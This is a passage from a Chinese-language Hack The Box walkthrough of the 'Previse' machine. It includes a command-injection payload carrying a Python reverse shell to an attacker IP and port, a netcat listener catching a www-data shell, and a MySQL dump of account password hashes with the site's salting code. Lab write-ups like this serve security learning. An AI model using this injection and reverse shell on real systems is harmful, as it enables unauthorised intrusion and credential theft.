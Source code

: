 04:01:22.130164 IP 10.10.11.104 > 10.10.16.3: ICMP echo request, id 21779, seq 2, length 64
04:01:22.130222 IP 10.10.16.3 > 10.10.11.104: ICMP echo reply, id 21779, seq 2, length 64
04:01:22.385193 IP 10.10.11.104 > 10.10.16.3: ICMP echo request, id 21779, seq 3, length 64
04:01:22.385232 IP 10.10.16.3 > 10.10.11.104: ICMP echo reply, id 21779, seq 3, length 64
```


使用下面playload
```
delim=space;/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

拿到foodhold
```
┌──(root💀kali)-[~/htb/Previse]
└─# nc -lnvp 4242  
listening on [any] 4242 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.104] 39702
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# user

```www-data```没有权限查看user.txt，需要提权到```m4lwhere```，用上面数据库的配置登陆到mysql

```
mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | test123  | $1$🧂llol$wzYjWk/p5usz8BzxvPrXs1 | 2022-01-02 09:16:40 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)

```

在account.php里，密码哈希是这样加密的
```
$hash = crypt($password, '$1$🧂llol$');
```


crypt是php里面的内置函数，看说明
```
